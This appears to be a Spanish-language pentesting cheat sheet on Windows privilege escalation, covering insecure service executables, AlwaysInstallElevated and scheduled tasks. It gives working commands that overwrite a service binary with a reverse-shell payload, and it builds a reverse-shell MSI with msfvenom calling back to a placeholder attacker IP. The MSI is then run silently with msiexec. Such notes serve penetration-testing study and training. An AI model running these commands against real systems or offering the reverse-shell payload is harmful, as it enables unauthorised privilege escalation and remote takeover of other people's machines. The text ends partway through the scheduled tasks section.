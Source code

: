 
### Insecure Service Executable
1º Busqueda mediante la tool de enumeracion

2º Verificar permisos del binario
~~~~c
>> .\accesschk.exe  /accepteula -quvw PATH
~~~~
NOTA: Para que sea efectivo tiene que estar en el grupo EVERYONE o un grupo que estemos nosotros

3º Preguntar que podriamos hacer con el servicio
~~~~c
>> .\accesschk.exe /accepteula -uvqc SERVICIO
~~~~
NOTA: Debe tener los 2 permisos e START / STOP

4º Copiamos el binario y lo sobreescribimos por el binario original
~~~~c
>> copy /Y C:\REVERSE "C:\BINARIOori.exe"
~~~~


## AlwaysInstall Elevated
1º Verificar si tenemos los registros habilitados
NOTA: Solo Funciona si tenemos los 2 registros habilitados
~~~~c
>> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v SERVICIO
~~~~
1.1º Verificar el otro registro
~~~~c
>> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v SERVICIO
~~~~

2º Creamos una reverse shell como archivo .msi
~~~~c
>>msfvenom -p windows/x64/shell_reverse_tcp LHOST=IPATACANTE LPORT=53 -f msi -o file.msi
~~~~

3º Copiamos el .msi al equipo
~~~~c
>> copy \\IP\test\file.msi .
~~~~

4º Ejecutamos el archivo .msi
~~~~c
>> msiexec /quiet /qn /i file.msi
~~~~



## Scheduled Tasks
### Executable File Writeable

1º Listar todas las tareas programadas que el usuario puede ver
~~~~c
schtasks /query /fo LIST /v
~~~~
En powershell
~~~~c
PS> Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
~~~~
